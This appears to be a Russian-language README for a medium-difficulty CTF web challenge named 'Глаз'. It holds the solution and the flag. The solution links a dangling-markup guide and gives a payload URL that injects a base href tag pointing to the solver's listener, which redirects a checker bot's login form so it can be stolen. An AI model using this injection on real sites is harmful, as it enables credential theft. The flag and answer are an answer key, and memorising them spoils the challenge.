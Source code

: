 # Глаз
## Сложность
Medium



## Описание
В расследовании недавнего преступления мы опробовали нашу новейшую автоматизированную информационную систему розыска преступников "Глаз". Работает как часы, но вот название так себе, правда? Там сейчас как принимают предложения о новом названии, может поучаствуешь?

## Решение:
https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection#stealing-forms  
Скормить черкеру ссылку такого вида:  
`http://taskurl:8081/login?title=<base href="your_listener_url">`

## Участникам нужно выдать содержимое папки prod

## Флаг
CTF{D4ngl1ng_M4rkup_Inj3ct10n}
